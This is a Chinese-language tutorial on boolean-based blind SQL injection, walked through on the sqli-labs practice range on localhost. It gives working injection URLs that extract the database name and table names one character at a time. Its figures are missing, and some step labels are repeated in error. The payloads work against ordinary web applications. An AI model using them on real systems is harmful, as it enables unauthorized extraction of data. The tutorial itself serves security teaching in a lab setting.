


```
SQL注入之布尔盲注
```

### 1.什么是布尔盲注？

Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。

返回False时：


返回True时：


### 2.如何进行布尔盲注？

注入流程：


### 3.靶场案例演示：

1.** 猜解数据库的名字**

sql注入代码,首先判断数据库名的第一个字符是否大于115

```
http://localhost/sqli-labs-php7-master/Less-8/?id=1' and ascii(mid(database(),1,1))>115--+ 
```

由于页面什么都没显示，故为false.

	

sql注入代码,通过二分法拆解，最后发现第一个字符的ascii码是115,即s

```
http://localhost/sqli-labs-php7-master/Less-8/?id=1' and ascii(mid(database(),1,1))=115--+ 
```

	

同理可以继续拆解数据库的后面字符，最后从而得知数据库名

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),2,1))=101--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),3,1))=99--+  正常`

如此就得到了

第一个字符的ASCII码为115解码出来为“s”

第二个字符的ASCII码为101解码出来为“e”

第二个字符的ASCII码为99解码出来为“c”

依次类推出数据库的名字为“security”

2.**猜解表明名**

同理可以使用布尔sql盲注拆解数据库当中的表名

```
http://localhost/sqli-labs-php7-master/Less-8/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ 
正确
http://localhost/sqli-labs-php7-master/Less-8/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=101--+ 正确
```

注：select下的limit是第几个表。

　　substr下的是截取的表内容。

​	    limit 0,1指的是显示查询结果的第一行数据，并只显示一行。

​		limit 1,1指的是显示查询结果的第二行数据，并只显示一行。

当前库下（注入点连接的数据库）第一个表ASCII码为**114  解码为r**

当前库下（注入点连接的数据库）第一个表ASCII码为**101  解码为e**

**当前库下（注入点连接的数据库）第一个表ASCII码为....**  解码为** referer**


### 总结归纳：

盲注分为三种：

**1.[布尔型盲注](http://www.cnblogs.com/xishaonian/p/6103505.html%20)：** 根据页面返回的真假来判断的即为**布尔型盲注**

**2.[时间型盲注](http://www.cnblogs.com/xishaonian/p/6113965.html)：** 根据页面返回的时间来判断的即为**时间型盲注**

**3.报错型盲注** ：根据页面返回的对错来判断的即为**报错型盲注**
